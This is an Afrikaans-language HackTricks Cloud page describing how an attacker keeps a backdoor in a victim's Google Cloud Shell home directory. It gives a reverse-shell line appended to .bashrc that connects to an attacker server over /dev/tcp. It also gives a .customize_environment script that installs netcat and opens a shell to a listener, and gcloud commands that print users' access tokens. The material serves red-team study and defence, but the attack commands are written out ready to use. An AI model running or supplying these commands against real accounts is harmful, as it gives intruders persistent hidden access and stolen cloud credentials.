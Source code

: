 # GCP - Cloud Shell Volharding

{% hint style="success" %}
Leer & oefen AWS Hack: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Cloud Shell

Vir meer inligting, kyk:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Volgehoue Agterdeur

[**Google Cloud Shell**](https://cloud.google.com/shell/) bied jou toegang tot die opdraglyn van jou wolkbronne direk vanuit jou webblaaier sonder enige geassosieerde koste.

Jy kan toegang tot Google se Cloud Shell kry vanaf die **webkonsol** of deur **`gcloud cloud-shell ssh`** uit te voer.

Hierdie konsol het 'n paar interessante vermoëns vir aanvallers:

1. **Enige Google-gebruiker met toegang tot Google Cloud** het toegang tot 'n ten volle geauthentiseerde Cloud Shell-instantie (Diensrekeninge kan, selfs as eienaars van die organisasie, toegang hê).
2. Genoemde instantie sal **sy tuisgids vir ten minste 120 dae handhaaf** as geen aktiwiteit plaasvind nie.
3. Daar is **geen vermoë vir 'n organisasie om die aktiwiteit** van daardie instantie te monitor nie.

Dit beteken basies dat 'n aanvaller 'n agterdeur in die tuisgids van die gebruiker kan plaas en solank as wat die gebruiker elke 120 dae ten minste na die GC Shell verbind, sal die agterdeur oorleef en die aanvaller sal elke keer 'n skul kry wanneer dit uitgevoer word deur net te doen:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Daar is 'n ander lêer in die huisvouer genaamd **`.customize_environment`** wat, indien dit bestaan, elke keer uitgevoer gaan word wanneer die gebruiker die **wolkmussel** toegang (soos in die vorige tegniek). Voeg net die vorige agterdeur in of een soos die volgende om volharding te handhaaf solank as wat die gebruiker die wolkmussel "gereeld" gebruik:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Dit is belangrik om daarop te let dat die **eerste keer wanneer 'n aksie wat verifikasie vereis, uitgevoer word**, 'n pop-up-verifikasievenster in die gebruiker se webblaaier verskyn. Hierdie venster moet aanvaar word voordat die bevel uitgevoer kan word. As 'n onverwagte pop-up verskyn, kan dit vermoedens wek en moontlik die volhardingsmetode wat gebruik word, in gevaar bring.
{% endhint %}

Dit is die pop-up van die uitvoering van `gcloud projects list` vanaf die wolkshell (as aanvaller) wat in die webblaaier se gebruikersessie gesien word:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Maar as die gebruiker aktief die wolkshell gebruik het, sal die pop-up nie verskyn nie en kan jy **gebruikers se tokens versamel met**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Hoe die SSH-verbinding tot stand gebring word

Basies word hierdie 3 API-oproepe gebruik:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (sal jou laat jou openbare sleutel wat jy plaaslik geskep het, byvoeg)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (sal jou laat die instansie begin)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (sal jou die IP van die Google Cloud Shell vertel)

Maar jy kan verdere inligting vind in [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Verwysings

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
